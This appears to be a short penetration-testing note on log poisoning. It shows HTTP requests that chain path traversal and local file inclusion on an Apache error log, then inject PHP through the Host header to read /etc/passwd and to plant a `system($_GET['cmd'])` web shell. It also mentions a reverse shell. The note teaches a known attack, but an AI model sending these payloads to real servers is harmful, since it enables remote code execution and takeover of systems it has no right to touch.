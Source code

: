 Log poisoning is a vulnerability that is caused by local file inclusion where an attacker is able to view the contents of the log file and modify the value of HTTP headers, such as `Host`, `User-Agent`, `Cookie`, etc. to write arbitrary code and achieve remote code execution on the server.
> Note: This same exploit can also be used on web servers running Nginx.
## Identification
The goal on this part is to identify which HTTP header is returning the results of our arbitrary commands, we can to this by fuzzing each HTTP request header.
```http
GET /blog.php?page=../../../../var/log/apache2/error.log
Host: target-website.com
User-Agent: Log Poisoning
Cookie: Log Poisoning
Referer: Log Poisoning
```
## Sample Exploit
For example, imagine an application that returns a `.php` page by reading the `page` parameter
```http
GET /blog.php?page=hello-world.php
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
We can exploit this by chaining path traversal and local file inclusion to view the log file:
```http
GET /blog.php?page=../../../../var/log/apache2/error.log
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
Notice that in the log file, the `Host` HTTP header is displayed. Therefore, we will attempt remote code execution to view the contents of a sensitive file or upload a shell to gain full control of the server.
```http
GET /blog.php?page=../../../../var/log/apache2/error.log
Host: <?php system('ls /etc/passwd') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
```http
GET /blog.php?page=../../../../var/log/apache2/error.log&cmd=id
Host: <?php system($_GET['cmd']) ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
> Note: We can also use a reverse shell.